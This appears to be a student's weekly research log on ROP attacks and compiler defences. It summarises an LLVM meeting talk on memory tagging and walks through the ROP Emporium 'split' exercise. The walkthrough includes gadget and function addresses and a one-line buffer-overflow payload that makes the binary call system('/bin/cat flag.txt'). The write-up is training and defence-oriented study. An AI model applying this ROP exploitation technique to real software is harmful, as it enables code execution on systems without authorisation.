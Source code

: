 # Weeks Of 10/15 and 10/22 Research Update
Hello again. I've decided to combine my last two weeks of research, mainly because I had a relatively light week on the week of the 15th. This was the week of the LLVM Developers conference, so in many ways I guess I was still researching. Nonetheless, I combined the last two weeks together to produce a more substantial update. Outside of the LLVM conference, I played around with some more exploitable and started diving into clang's source code by building LLVM on my host machine

## LLVM Developer Meetup
I recently got the opportunity to attend the LLVM developer meetup. There I got the opportunity to attend various technical talks, interact with the community, and ask some prominent questions regarding my research project. 


<p align="center">
  <img src ="https://i.imgur.com/31pNYRj.png?1" />
</p>

I'll try to sum up some of the more important (and relevant things I learned) here. I was able to attend a talk about the future of C++ where Michael Wong discussed the future of the language, it's compilation, and what to prepare for with C++ 20. There was also an interactive tutorial which covered how to build a backend code generator for a RISC-V architecture. This may prove useful since I'm about to dive into the LLVM backend source in the following weeks. The most prevalent talk I attended was about C/C++ safety and preventing memory-based attacks (like ROP!). In this talk, Kostya mentioned that ~50% of high critical security bugs in Chrome and Android are memory safety bugs. Things like ROP attacks and buffer overflows remain ever prevalent in industry executables.

<p align="center">
  <img src ="https://i.imgur.com/7LRZSq9.jpg" />
</p>

He then goes on to describe a memory tagging technique that we can build right into the software. Essentially if a pointer points to a spot in memory you tag the stack entry and the spot in memory. For example, purpose assume you tag both with the letter A. Thus if the pointer is changed, it won't point to a memory address with an "A" tag, and the system will stop, throwing an exception. This is an interesting approach to memory safety and may be something to explore in the future. He mentioned that there is specific hardware that manufacturers are working on to help make this process easier. This talk actually lead to some interesting conversations with other people at the conference. Ultimately, I've learned that there are really two approaches to preventing ROP attacks: 
1.) We can make ROP gadgets harder to find, thus limiting the amount of code that can be exploited with "ease"
2.) We can implement some method to make manipulation harder once an attacker has access to the stack. This is the approach that Kostya discussed with his C/C++ memory safety talk.

For the purpose of this project, I'm going to focus on making gadgets harder to find. If time permits towards the end, I might be able to circle back and examine memory safety techniques we could implement in software. This would require a considerable amount of extra research I would assume.


## Yet Another Exploitable
I spent much of my time examining another exploitable file from [ROPEmpoium](https://ropemporium.com/guide.html). This time, the goal was to call an unintended function with a parameter. I wanted to call the [system()](http://www.cplusplus.com/reference/cstdlib/system/) function with the "/bin/cat flag.txt" argument. This requires significant manipulation of the stack as I found out. I'll spare you a tutorial this time, but if you're interested feel free to check out my last write up [here](https://github.com/justiceadamsUNI/ROP-research-documentation/blob/master/Week-of-10-1-update.md). Just like previously, there's too much being written to a buffer, thus we can use a buffer overflow as our point of entry. Consider the stack, what we want is to put the argument needed into the correct register, then call the system() function

```
|---------------------------|             |---------------------------------|
|       ............        |             |                                 |
|---------------------------|             |---------------------------------|
|       ............        |             |                                 |
|---------------------------|   -----\    |---------------------------------|
|       OTHER STUFF         |   -----/    |         System() address        |
|---------------------------|             |---------------------------------|
|       OTHER STUFF         |             | Address to String to use as arg |
|---------------------------|             |---------------------------------| 
| Return Address to Exploit |             | Adress to pop rdi; ret; gadget  |
-----------------------------             -----------------------------------
```
We use the `pop rdi; ret;` gadget to pop the String argument on the stack into the `%rdi` register, which will be used as a function parameter to the call to system().
```
"Additionally, %rdi, %rsi, %rdx %rcx, %r8, and %r9 are used to pass the first six integer
or pointer parameters to called functions" - CS Brown x64 cheatsheet
```
Now, we actually have to find those addresses. Using rare2d I was able to find the address of System() and I was able to analyze all variables loaded in memory and found an address for a string variable which has exactly what we want.

<p align="center">
  <img src ="https://i.imgur.com/VYRX8e8.png" />
</p>
Address of the `System()` call is `0x004005e0`

<p align="center">
  <img src ="https://i.imgur.com/xDJUeQf.png" />
</p>

Address of the string variable is `0x00601060`. The last thing to do is find the gadget we need. I used a tool called [ropper](https://github.com/sashs/Ropper) to do this part. It made it incredibly easy to actually find the gadgets, and I'll definitely be using this in the coming weeks.

<p align="center">
  <img src ="https://i.imgur.com/xR64Nsp.png" />
</p>

Using this tool, I was able to find that the address to the gadget is `0x00400883`!

Thus, putting this all together I'm able to write into the buffer using the same formula as last time: 
```
python -c 'print("X"*40 + "\x83\x08\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\xe0\x05\x40\x00\x00\x00\x00\x00")' | ./split1
```
And our result is what we expect! Note: This did not work on a windows machine using [WSL](https://docs.microsoft.com/en-us/windows/wsl/install-win10). I had to finish my hacking at work on a true Linux machine to get things to work. I'm going to stop doing these exercises due to the fact that they don't work on Windows. Also, I've pretty much learned everything I need so far. It's become much clearer how to use these gadgets after doing this exercise.

## Building LLVM
I also managed to build LLVM from the open source git branch using the visual studio 2017 compiler. Next week, I'm planning on diving into some back-end code. Someone from the conference told me that the [Kaladiescope](https://llvm.org/docs/tutorial/) tutorial might be a good place to start, but stay tuned.

## For Next Week
- Dive into the LLVM/clang back-end code and see where exactly assembly instructions are generated.
- Research techniques for preventing ROP gadgets from detectability (no-op instructions?)
- Use the ROP tools mentioned above to analyze some industry executables, maybe a game if I can get my hands on a sample.
- Check out the Kaleidoscope tutorial to see if there's anything of interest that could help there.

## Sources for this week
### Information sources:
- [PwnTools](https://github.com/Gallopsled/pwntools)
- [x86 Call/Return Protocol - University of Wisconsin](http://pages.cs.wisc.edu/~remzi/Classes/354/Fall2012/Handouts/Handout-CallReturn.pdf)
- [x64 Cheat Sheet - Brown University](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
- [Ropper](https://github.com/sashs/Ropper)
- [Radare2 cheatsheet](https://gist.github.com/williballenthin/6857590dab3e2a6559d7)
- [Split challenge](https://ropemporium.com/challenge/split.html)
- [Abatchy Split Solution](https://github.com/abatchy17/ROP-Emporium/blob/master/split/split64.py)

### Image Sources
- https://twitter.com/llvmorg/status/1052634914657468416
